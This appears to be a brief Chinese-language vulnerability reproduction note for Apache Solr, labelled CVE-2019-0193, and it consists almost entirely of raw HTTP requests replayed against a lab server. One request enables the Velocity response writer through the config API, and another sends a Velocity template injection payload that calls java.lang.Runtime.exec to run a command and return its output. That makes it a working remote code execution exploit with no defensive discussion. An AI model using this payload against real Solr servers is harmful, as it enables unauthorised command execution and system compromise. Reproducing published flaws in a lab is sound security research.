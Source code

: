 # Apache Solr CVE-2019-0193 环境搭建漏洞复现





# Solr CVE-2019-0193 漏洞复现

使用BurpSuite 对数据包重放

GET /solr/te1/config HTTP/1.1

Host: 172.17.0.3:8983

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: application/json, text/plain, */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://172.17.0.3:8983/solr/

Connection: close


post /solr/te1/config HTTP/1.1
Host: 172.17.0.3:8983
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.17.0.3:8983/solr/
Connection: close
Content-Length: 259



{

  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }

}



post /solr/te1/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end  HTTP/1.1
Host: 172.17.0.3:8983
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.17.0.3:8983/solr/
Connection: close
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
